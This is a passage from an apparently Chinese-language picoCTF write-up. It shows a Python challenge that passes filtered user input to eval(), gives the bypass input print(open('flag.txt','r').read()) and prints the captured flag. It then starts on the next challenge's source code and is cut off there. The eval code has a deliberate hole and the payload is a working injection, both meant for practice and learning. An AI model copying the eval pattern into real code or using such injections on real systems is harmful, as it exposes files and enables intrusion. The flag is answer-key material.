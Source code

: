 ```python
def filter(user_input):
    if "win" in user_input:
        return False
    return True


while True:
    try:
        user_input = input("==> ")
        if filter(user_input):
            eval(user_input + "()")
        else:
            print("Illegal input")
    except Exception as e:
        print(e)
        break
```

其實和上面那題很類似，但是多了一個`filter()`函數去檢查輸入不能有 win，但是我們可以直接使用

```python
print(open("flag.txt", "r").read())
```

雖然後面會多出一個`()`，但是不會影響前面的`print()`函數執行。所以還是可以得到 Flag。

```txt
picoCTF{f1l73r5_f41l_c0d3_r3f4c70r_m1gh7_5ucc33d_b924e8e5}
```

# Picker III

這題一樣先來看一下代碼。

```python
import re


USER_ALIVE = True
FUNC_TABLE_SIZE = 4
FUNC_TABLE_ENTRY_SIZE = 32
CORRUPT_MESSAGE = "Table corrupted. Try entering 'reset' to fix it"

func_table = ""


def reset_table():
    global func_table

    # This table is formatted for easier viewing, but it is really one line
    func_table = """\
print_table                     \
read_variable                   \
write_variable                  \
getRandomNumber                 \
"""


def check_table():
    global func_table

    if len(func_table) != FUNC_TABLE_ENTRY_SIZE * FUNC_TABLE_SIZE:
        return False

    return True
```